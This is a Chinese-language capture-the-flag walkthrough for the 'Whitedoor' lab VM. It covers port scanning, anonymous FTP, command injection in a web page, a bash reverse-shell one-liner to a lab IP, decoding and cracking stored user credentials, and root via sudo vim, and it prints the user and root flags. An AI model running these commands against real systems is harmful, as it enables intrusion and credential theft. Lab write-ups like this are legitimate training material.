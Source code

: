# Whitedoor

:::note

[Linux VM] [Tested on VirtualBox] created by || Pylon

⏲️ Release Date // 2023-12-15

✔️ MD5 // ceb6b1e724bb1eb201f0a1fff4b3f5d1

☠ Root // 85

💀 User // 86

📝Notes //
Enjoy it.

:::

## 靶机启动

靶机 IP：

```plaintext
192.168.56.123
```

## nmap 信息搜集

```plaintext
Nmap scan report for 192.168.56.123
Host is up (0.00051s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:192.168.56.102
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              13 Nov 16 22:40 README.txt
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
| ssh-hostkey:
|   256 3d:85:a2:89:a9:c5:45:d0:1f:ed:3f:45:87:9d:71:a6 (ECDSA)
|_  256 07:e8:c5:28:5e:84:a7:b6:bb:d5:1d:2f:d8:92:6b:a6 (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Home
|_http-server-header: Apache/2.4.57 (Debian)
```

## FTP Anonymous

```plaintext title="ls -lah"
ftp> ls -lah
229 Entering Extended Passive Mode (|||33680|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        110          4096 Nov 16 22:40 .
drwxr-xr-x    2 0        110          4096 Nov 16 22:40 ..
-rw-r--r--    1 0        0              13 Nov 16 22:40 README.txt
```

```plaintext title="README.txt"
¡Good luck!
```

## web 服务

经过简单探测，发现可以实现命令执行

```plaintext title="ls;a"
blackdoor.webp
blackindex.php
index.php
whitedoor.jpg
```

尝试构建反弹 shell

```plaintext
SEND: ls;echo "bash -i >& /dev/tcp/192.168.56.102/9999 0>&1" > /tmp/shell.sh
SEND: ls /tmp
RECV: shell.sh
SEND: ls;chmod 777 /tmp/shell.sh
SEND: ls;bash /tmp/shell.sh
```

成功收到反弹的 shell

```shell
┌─[randark@parrot]─[~/tmp]
└──╼ $pwncat-cs -lp 9999
[23:40:11] Welcome to pwncat 🐈!                                                                                                                                                                 __main__.py:164
[23:48:18] received connection from 192.168.56.123:33966                                                                                                                                              bind.py:84
[23:48:19] 192.168.56.123:33966: registered new host w/ db                                                                                                                                        manager.py:957
(local) pwncat$ back
(remote) www-data@whitedoor:/var/www/html$ whoami
www-data
```

## User - whiteshell

对用户进行探测，发现敏感凭据

```shell
(remote) www-data@whitedoor:/home/whiteshell/Desktop$ cat .my_secret_password.txt
whiteshell:VkdneGMwbHpWR2d6VURSelUzZFBja1JpYkdGak5Rbz0K
```

尝试进行解码

```plaintext
VkdneGMwbHpWR2d6VURSelUzZFBja1JpYkdGak5Rbz0K
Base64 decode --> VGgxc0lzVGgzUDRzU3dPckRibGFjNQo=
Base64 decode --> Th1sIsTh3P4sSwOrDblac5
```

尝试进行登录

```shell
(local) pwncat$ connect whiteshell@192.168.56.123
Password: **********************
[23:55:17] 192.168.56.123:22: normalizing shell path                                                                                                                                              manager.py:957
           192.168.56.123:22: loaded known host from db                                                                                                                                           manager.py:957
(local) pwncat$ back
(remote) whiteshell@whitedoor:/home/whiteshell$ whoami
whiteshell
```

## User - Gonzalo

对用户进行探测，发现敏感凭据

```shell
(remote) whiteshell@whitedoor:/home/Gonzalo/Desktop$ cat .my_secret_hash
$2y$10$CqtC7h0oOG5sir4oUFxkGuKzS561UFos6F7hL31Waj/Y48ZlAbQF6
```

尝试破解，得到

```plaintext
CqtC7h0oOG5sir4oUFxkGuKzS561UFos6F7hL31Waj --> qwertyuiop
```

尝试登陆

```shell
(local) pwncat$ connect Gonzalo@192.168.56.123
Password: **********
[00:00:14] 192.168.56.123:22: normalizing shell path                                                                                                                                              manager.py:957
[00:00:15] 192.168.56.123:22: loaded known host from db                                                                                                                                           manager.py:957
(local) pwncat$ back
(remote) Gonzalo@whitedoor:/home/Gonzalo$ whoami
Gonzalo
```

### flag - user

```shell
(remote) Gonzalo@whitedoor:/home/Gonzalo/Desktop$ cat user.txt
Y0uG3tTh3Us3RFl4g!!
```

## User - root

在 sudo 中，发现可以运行 vim

```plaintext title="sudo -l"
Matching Defaults entries for Gonzalo on whitedoor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User Gonzalo may run the following commands on whitedoor:
    (ALL : ALL) NOPASSWD: /usr/bin/vim
```

参考 [vim | GTFOBins](https://gtfobins.github.io/gtfobins/vim/)

```shell
(remote) Gonzalo@whitedoor:/home/Gonzalo/Desktop$ sudo vim -c ':!/bin/sh'

# whoami
root
```

### flag - root

```shell
# cat root.txt
Y0uAr3Th3B3sTy0Ug3Tr0oT!!
```

